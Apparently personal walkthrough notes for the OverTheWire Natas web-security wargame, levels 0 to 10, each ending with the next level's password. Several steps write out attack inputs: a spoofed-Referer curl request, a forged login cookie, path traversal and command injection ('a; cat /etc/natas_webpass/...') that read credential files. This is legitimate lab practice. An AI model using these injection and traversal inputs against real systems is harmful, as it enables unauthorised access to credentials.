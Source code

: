 # Natas0
* View page source
* gtVrDuiDfck831PqWsLEZy5gyDz1clto

# Natas1
* View page source by typing view-source in the link
* ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

# Natas2
* View source to find src = files/pixel.png
* go to [website]/files/
* sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

# Natas3
* [website]/robots.txt
* [website]/s3cr3t/
* Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

# Natas4
* curl -H "Referer: http://natas5.natas.labs.overthewire.org/" -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/
* iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

# Natas5
* Saw that there was cookie called loggedin that was set to 0
* Opened up console and did document.cookie="loggedin=1"
* aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

# Natas6
* Saw that there was an "includes/secrets.inc" file
* Visited http://natas6.natas.labs.overthewire.org/includes/secret.inc 
* Saw that the secret is FOEIUWGHFEEUHOFUOIU
* 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

# Natas7
* http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
* DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

# Natas8
* Used hex2bin php command on 3d3d516343746d4d6d6c315669563362
* Got the value b3ViV1lmMmtCcQ==, and then reversed it
* Got oubWYf2kBq as the decoded base 64 value
* W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

# Natas9
* Injection vulnerability
* a; cat /etc/natas_webpass/natas10
* nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

# Natas10
* input "1 /etc/natas_webpass/natas11" into search query
* U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

# Natas11


